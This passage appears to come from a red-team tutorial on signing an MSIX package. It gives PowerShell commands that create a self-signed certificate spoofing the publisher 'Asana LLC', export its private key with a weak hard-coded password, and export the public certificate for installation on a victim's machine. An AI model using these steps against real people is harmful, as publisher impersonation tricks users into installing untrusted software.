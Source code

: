 1. Create a new self-signed certificate

```powershell
New-SelfSignedCertificate -CertStoreLocation "Cert:\CurrentUser\My" -TextExtension @("2.5.29.37={text}1.3.6.1.5.5.7.3.3", "2.5.29.19={text}")-Type Custom -KeyUsage DigitalSignature -Subject "Asana LLC" -FriendlyName "Asana LLC"

```

Subject must much the MSIX's Publisher attribute value.
- You can find the thumbprint of the certificate like this

```powershell
Set-Location Cert:\CurrentUser\My
Get-ChildItem | Format-Table Subject, FriendlyName, Thumbprint

```

2. Export the private key which we will use to sign the MSIX

```powershell
$password = ConvertTo-SecureString -Force -AsPlainText -String pass123
Export-PfxCertificate -Password $password -cert "Cert:\CurrentUser\My\1BB13615AD20D8101348EA03BC077E0BBE95D792" -FilePath  C:\Users\Saudi\cert.pfx
```
3. Export the public key which we will install in the victim's computer

```powershell
Export-Certificate -cert "Cert:\CurrentUser\My\1BB13615AD20D8101348EA03BC077E0BBE95D792" -FilePath 'C:\Users\Saudi\cert.cer'
```

<img src="/posts/2024-06-11_red_team06/images/certificate.png"> 

- Since this is a self-signed SSL for testing purposes, you can install the security certificate on the victim as shown:

<img src="/posts/2024-06-11_red_team06/images/installcert.png"> 
